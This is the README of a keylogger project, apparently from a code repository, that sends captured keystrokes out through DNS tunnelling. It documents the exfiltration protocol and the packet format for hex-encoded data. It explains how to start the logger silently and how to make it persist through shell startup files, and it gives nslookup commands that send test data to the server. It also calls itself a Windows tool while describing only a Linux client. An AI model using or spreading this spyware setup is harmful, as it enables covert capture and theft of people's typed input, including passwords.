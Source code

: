 # DNS Keylogger
This post-exploitation keylogger will automatically report a Windows computer's keystrokes.

This takes advantage of DNS tunelling/exfiltration.

# Protocol
## Starting a Connection
A record requests starting with `a` indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.
It is in the format of `a.1.1.1.[sld].[tld].`

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## Exfiltrating Data
A record requests starting with `b` indicate exfiltrated data being sent to the server.
It is in the format of `b.[packet #].[id].[data].[sld].[tld].`

`id` is the id that was established on connection. Data is sent as ASCII data in hex.
## Malformed Record Requests
If the client sends an malformed record request, the server will respond with an ip address starting with `201`.
## Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with an IP address starting with `202`.
## Out of Order Packets
Occurs when client sends a packet with packet_id that doesn't match what is expected. The server responds with an IP address starting with `203`. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet.
## Reached Max Connection
If the client attempts to create a connection when the max has reached, the server will respond with an IP address starting with `204`. Clients can keep trying, but until the server is reset, it won't be able to connect.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, resend the same payload.

# Server
## Listens on UDP port 53 for DNS packets
Looks for A record and CNAME record requests. Once an A record has been received, the rest of the data from the client should be CNAME record requests.

# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data. 

To start the keylogger, run the command `./logger.sh && exit`. This will silently start the keylogger, and any inputs typed will be sent. `logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to the .bashrc and/or .bash_profile to start on a new interactive shell or on login.

### Sending Test Requests
You can use `nslookup` to send requests to the server:

`nslookup -query=A a.1.1.1.example.com 127.0.0.1` sends a connection request to localhost.

`nslookup -query=A b.1.1.54686520717569636B2062726F776E20666F782E1B.example.com 127.0.0.1` to send a test message to localhost.

The `sld` can be anything if you're testing on localhost, but you need to put something there.

# Side Notes
## Log file
The log file containing user inputs contains ASCII control characters, such as backspace, delete, and carriage return. If you print the contents using something like `cat`, you may not see all of the data.